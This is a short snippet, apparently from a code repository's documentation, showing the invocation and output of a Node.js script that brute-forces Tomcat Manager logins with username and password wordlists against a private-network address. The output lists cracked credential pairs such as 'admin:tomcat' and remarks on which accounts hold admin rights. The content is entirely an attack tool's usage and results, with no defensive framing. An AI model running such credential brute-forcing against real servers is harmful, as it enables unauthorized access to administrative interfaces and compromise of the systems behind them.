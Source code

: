 ##tomcat_manager_login_brute_force_test.js
```javascript
####### node tomcat_manager_login_brute_force_test.js http://192.168.152.132:8080/manager/html usname.txt passwd.txt
Total Count:28448
------
Good luck: {403} tomcat:tomcat
Good luck: {200} admin:tomcat
Good luck: {403} 123:195641195641
------
Cost time: 21.514

```

####Then
user `admin` having password `tomcat` show be in the admin role.
user `tomcat` and `123` show be in the user role. 

